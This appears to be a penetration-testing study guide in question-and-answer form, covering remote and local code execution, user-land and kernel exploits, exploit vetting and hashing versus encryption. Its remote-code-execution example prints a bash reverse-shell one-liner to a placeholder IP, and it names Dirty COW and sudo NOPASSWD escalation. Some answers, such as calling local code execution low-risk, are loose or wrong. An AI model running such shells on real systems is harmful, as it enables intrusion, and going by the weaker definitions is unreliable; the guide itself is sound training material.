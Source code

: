 
# 5.1 Exploitation
Explain the difference between the following and their associated risks:

***Remote Code Execution:*** 
`Answer:` Ability to execute commands from a remote host.
`Associated Risk:` Crash a system
`Example:` Logging into a web server with default credentials and executing `bash -i >& /dev/tcp/10.0.0.1/4242 0>&1` to get a `reverse shell` 


***Local Code Execution***:
`Answer:` Utilizing code that is already present on a system to perform malicious activity
`Associated Risk:`  Unlikely to have risks.
`Example:` On a linux system noticing that `SUDO ALL NOPASSWD` privileges are present allowing for the `attacker` to privilege escalate utilizing native code.

***User-land exploits***:
`Answer:` Any exploit that can be found with a simple Google Search
`Associated Risk:`  must conduct `code-review` prior to throwing to ensure the code is doing what it is described to do. Ensure that there aren't malicious functions that are opening sockets for attackers.
`Example:` any exploit found on github with a `POC`

***Kernel exploits***:
`Answer:` An exploit that specifically targets a version of Operating System 
`Associated Risk:`  Likely to crash or restart a machine. If used against `DC` can break an entire network
`Example:` Linux Kernel 2.6.22 - 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation


***Describe how to reduce risk when conducting exploitation during an operation***:
`Explanation`: Practice utilizing the exploit prior to test, conduct code review to ensure the tester understands what the code is doing.

***Describe a recent exploit and how it functions***:

***Identify a resource that is typically used to find publicly available exploits***:
`Answer`:  exploitdb / github

***Describe the process for reviewing publicly found exploits before use in a customer network***:
`Answer`: Throw `.sln` file into `Visual Studio` and read through the code and comment functions to thoroughlt understand the code. Run the exploit against vulnerable machine in a Virtual Machine, take notes to see what the code did and if any errors occurred research into them to identify a fix.

***Describe the software approval process and where it is documented***:
`Answer`: Following code review and tool testing, a review document gets submitted to push identifying `trusted` or `untrusted`

# 5.2 Password Attacks

***Explain the differences between hashing and encryption***:
`Explanation`:  Hashing is typically used to validate information through this process - `plain text` -> `hash function` -> `hash text`
											Encryption is typically used to protect information through this process -  `plaint text` -> `encryption` -> `encrypted text` -> `decryption` -> `plaintext`
